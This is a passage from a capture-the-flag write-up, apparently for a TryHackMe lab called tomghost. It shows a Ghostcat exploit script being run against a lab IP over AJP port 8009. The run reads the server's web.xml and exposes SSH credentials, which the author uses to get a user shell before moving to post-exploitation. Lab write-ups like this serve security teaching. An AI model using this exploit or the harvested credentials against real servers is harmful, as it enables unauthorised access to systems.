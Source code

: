 ![image](images/tomghost-7.png)

Since the python script has already been set to read the **WEB-INF/web.xml** file over **port 8009**, we can simply run the script by adding our target IP.

```
┌──(mithlonde💀kali)-[~/ctf/tryhackme/tomghost]
└─$ python ghostcat.py 10.10.20.171   
Getting resource at ajp13://10.10.20.171:8009/asdf
----------------------------
...
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>
</web-app>
```

Looks like it retrieved some credentials we can use to use to login via SSH.

![image](images/tomghost-8.png)

Now that we have an initial shell on this machine as user, we can further enumerate the machine and escalate our privileges to root.

---
## 3. Post Exploitation
